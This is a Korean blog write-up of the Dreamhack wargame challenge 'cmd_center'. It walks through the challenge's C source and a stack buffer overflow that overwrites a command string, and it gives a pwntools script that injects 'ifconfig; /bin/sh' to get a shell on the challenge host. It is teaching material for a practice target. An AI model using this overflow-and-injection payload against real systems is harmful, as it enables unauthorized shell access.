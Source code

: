 ```yaml
---
title: '[Dreamhack] cmd_center'
description: Dreamhack [Wargame] - cmd_center
author: juhyeongkim
date: 2024-10-31 6:20:00 +0900
categories: [Dreamhack, Wargame]
tags: [Dreamhack, Wargame, Pwnable]
# toc: false
# comments: false
# math: true
# mermaid: true
# image:
#   path: 
#   lqip: 
#   alt: 
---
```


[문제 링크](https://dreamhack.io/wargame/challenges/117)

## 바이너리 분석

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void init()
{
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
}

int main()
{

	char cmd_ip[256] = "ifconfig";
	int dummy;
	char center_name[24];

	init();

	printf("Center name: ");
	read(0, center_name, 100);

	if (!strncmp(cmd_ip, "ifconfig", 8))
	{
		system(cmd_ip);
	}

	else
	{
		printf("Something is wrong!\n");
	}
	exit(0);
}
```

![image](https://github.com/user-attachments/assets/937f31ab-22e8-466b-b8cd-7eea6ceca5cf)

먼저, `canary` 이외에는 다른 보호 기법이 전부 적용되어 있기 때문에 `BOF`를 통한 `RAO` 공격은 가능할 것인데, 바이너리에 `BOF` 취약점을 찾기 힘들기 때문에 일단 넘어가서 다른 관점에서 살펴보자.

```c
if (!strncmp(cmd_ip, "ifconfig", 8))
{
  system(cmd_ip);
}
```

먼저, `char cmd_ip[256] = "ifconfig";`의 주소에서 `8bytes`에 저장된 데이터가 `"ifconfig"`라면 `cmp_ip`를 인자로 하는 `system` 함수를 수행할 수 있게 된다.

**이 뜻은 `cmd_ip`의 앞에서부터 `8bytes` 값만 `"ifconfig"`로 유지하고 뒤에 어떤 문자열을 붙여도 해당 문자열을 `system`의 인자로 전달하여 `Command Injection` 공격을 수행할 수 있다는 것이다.**

그렇다면, **`cmd_ip`에 `"ifconfig; /bin/sh"`을 입력하는 것을 목표로 잡고 바이너리를 다시 분석해보자.**

```c
char center_name[24];

init();

printf("Center name: ");
read(0, center_name, 100);
```

여기를 보면, `center_name`에 `100bytes` 만큼 입력을 받는데, `center_name`은 크기가 `24bytes`이기 때문에 `BOF` 취약점이 발생한다.

만약 `center_name` **뒤의** `100bytes` 범위 내에 `cmd_ip`가 위치한다면 `BOF`를 통해 `cmp_ip`를 위의 목표처럼 덮어서 쉘을 획득할 수 있을 것이다.\
(참고로 `BOF` 취약점은 존재하지만, 쉘 실행 함수도 없고 `libc_base`를 구하기 힘들기 때문에 카나리가 없어도 `RAO` 공격은 힘들다.)

그럼 `gdb`를 통해 `center_name`과 `cmd_ip`의 위치를 살펴보자.

![image](https://github.com/user-attachments/assets/e61dded2-d47c-4c78-a5b1-d7a65fb6a062)

위 이미지를 보면, 

1. `read`의 두 번째 인자(`rsi`)인 `center_name`이 `[rbp-0x130]`임을 알 수 있고

2. `strncmp`의 첫 번째 인자(`rdi`)인 `cmp_ip`가 `[rbp-0x110]`임을 알 수 있다.

다행히 `cmp_ip`가 `center_name` 뒤에 위치해서 `BOF`를 통해 `center_name`에 값을 덮어서 `cmp_ip`까지 도달하여 `cmp_ip`의 문자열을 조작할 수 있다.

두 변수가 저장된 주소의 차이는 `0x20 = 32`이기 때문에 `b'a' * 0x20`을 전달해준 후, `strncmp`에 걸리지 않기 위해 `b'ifconfig'`를 붙이고, 다시 b`; /bin/sh`을 붙여서 전달해주면 될 것이다.

<br>

## Exploit

```py
from pwn import *

p = remote('host3.dreamhack.games', 15414)

payload = b'a' * 0x20    # &cmd_ip - &center_name = 0x20(32)
payload += b'ifconfig'   # strncmp 우회
payload += b'; /bin/sh'  # injection

p.sendafter(b'Center name: ', payload)

p.interactive()
```
